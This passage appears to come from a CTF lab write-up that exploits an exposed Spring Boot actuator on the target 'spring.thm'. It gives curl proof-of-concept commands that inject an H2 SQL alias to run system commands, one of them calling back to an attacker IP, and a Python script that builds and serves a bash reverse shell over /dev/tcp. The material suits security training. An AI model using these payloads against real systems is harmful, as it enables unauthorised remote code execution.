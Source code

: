 Then for the command to be executed we need to restart the server with a `POST` to `/actuator/restart`

Here is a proof of concept:
```
curl -H "Content-Type: application/json" -H "x-9ad42dea0356cb04: 172.16.0.3" -X POST -d "{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('curl  http://10.6.32.20:8000/phone_home');\"}" https://spring.thm/actuator/env/ -k -v
```

```
curl -H "x-9ad42dea0356cb04: 172.16.0.3" -X POST https://spring.thm/actuator/restart/ -k -v
```

I wasn't able to embed a revshell directly in the command. I tried different methods (bash, python, nc, ...) but none seemed to work.
I settled for a 2 step approach of uploading a shell script with our revshell and calling it.

I've written this small python script to automate the process:
```py
import requests
import subprocess
import time
import os
import signal
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

our_ip = "10.6.32.20"
revshell_port = "7777"
url = "https://spring.thm"

def prepare_exploit_file():
    with open('rev.sh', 'w') as f:
        f.write('#!/bin/bash\n')
        f.write(f"bash -c 'bash -i >& /dev/tcp/{our_ip}/{revshell_port} 0>&1'\n")

    # Start http server so we can server rev.sh
    p = subprocess.Popen('python3 -m http.server', shell=True)
    return p


def run_cmd(cmd):
    data = {
        'name': 'spring.datasource.hikari.connection-test-query',
        'value': f"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException {{ java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {{return s.next();}} throw new IllegalArgumentException(); }}');CALL EXEC('{cmd}');"
    }

    headers = {
        'x-9ad42dea0356cb04': '172.16.0.3'
    }

    print(f"Inserting cmd : {cmd}")
    r = requests.post(f"{url}/actuator/env", json=data, headers=headers, verify=False)

    r = requests.post(f"{url}/actuator/restart", headers=headers, verify=False)
    print(r.text)
    print("Command executed")

```